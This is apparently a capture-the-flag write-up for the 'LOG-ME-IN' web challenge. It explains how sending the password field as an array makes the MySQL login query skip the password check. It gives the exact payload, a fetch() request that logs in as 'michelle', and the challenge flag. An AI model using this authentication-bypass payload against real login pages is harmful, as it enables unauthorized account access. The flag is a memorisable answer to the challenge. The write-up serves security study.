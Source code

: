 # LOG-ME-IN

This challenge exploits the fact that we can send an array which when parsed makes the MySQL server execute a query similar to the following:
```
SELECT * FROM users WHERE username='michelle' AND password=`password`='1'
``` 

Hence payload for the request is simply: `username=michelle&password[password]=1&csrf=`

Exploit:
```
await fetch("https://log-me-in.web.ctfcompetition.com/login", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": "https://log-me-in.web.ctfcompetition.com/login",
    "body": "username=michelle&password[password]=1&csrf=",
    "method": "POST",
    "mode": "cors"
});
```

After logging in, it is easy to just go and grab the flag.

Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`
